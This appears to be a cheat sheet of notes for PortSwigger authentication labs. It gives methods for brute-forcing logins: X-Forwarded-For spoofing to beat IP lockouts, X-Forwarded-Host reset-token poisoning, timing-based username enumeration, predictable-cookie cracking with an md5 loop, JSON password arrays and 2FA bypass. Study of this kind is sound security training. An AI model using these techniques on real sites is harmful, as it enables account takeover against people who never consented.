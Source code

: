 # Authenthication / Brute-Force CHEATSHEET + IMPORTANT LABS

## Key Terms

```bash
X-Forwarded-For  -> bypass ip based brute-force protection
X-Forwarded-Host -> <OUR-SV>
Burp Macros
```

## Most important labs

- [Username-enumeration-via-response-timing+ip-blocked-bypass-via-X-Fowarded-For](Username-enumeration-via-response-timing+ip-blocked-bypass-via-X-Fowarded-For.md)
  
- [Brute-forcing-a-stay-logged-in-cookie-(cookie-easy-to-reproduce-username+md5+b64)](Brute-forcing-a-stay-logged-in-cookie-(cookie-easy-to-reproduce-username+md5+b64).md)

- [Offline-password-cracking](Offline-password-cracking.md)


 ## Metodology
<br>


> Brute force users
```
 -> Cluster Bomber Attack -> Grep Extract -> e.g: invalid username/password
      -> ¿username already exists? 
      -> <USERNAME> + <VERY-LONG-PASSWORD> -> show time completed in respose
      -> Sometimes, when attempting to log in as an **existing** user, the server will lock the account after X failed attempts. Create a wordlist that repeats each username 5–10 times 
      -> json? -> try an array of password = brute force in a single request
      -> md5? -> while read -r i; do print  "$i" | md5sum | cut -d ' ' -f1; done < portswigger-password.txt > portswigger-pass-md5sum.txt
```
<br>

> Change password?
```  
  -> Brute-force the current password and in the new password field enter <pass1> <pass2>
      > If the current password is correct, it will show an error message because your new passwords do not match	
```
<br>
    
> Forgot password? 
```
    -> Reuse temporal token 			
	  -> X-Forwarded-Host: <exploit-sv> -> token en nuestro email
```
<br>

> Cookie predecible?
```
    -> <username>:<password-hash> base64
    -> <username>:<password+timestamp-hash>
    -> Hash? -> find the type with tools like john-the-ripper,hashid,crackstation(online)...
```
<br>

> 2FA?
```
    -> Intentar evitar la 2º verificación, ej -> 1º login + GET /my-account?username=carlos
    -> login1 (wiener) + login2 (send token to carlos) -> brute force mfa
	  -> macro + brute force mfa
```
<br>

> LOGIN BLOCKED?
```
- json? -> try an array of password = brute force en una sola request, eg -> {"username":"carlos","password":["foo1","foo2","foo3..."]} 
- IP based block? -> Pitchforked attack ->  X-Forwarded-For: <IP-INTRUDER+1> + <USERNAME> + <PASSWORD> 
```




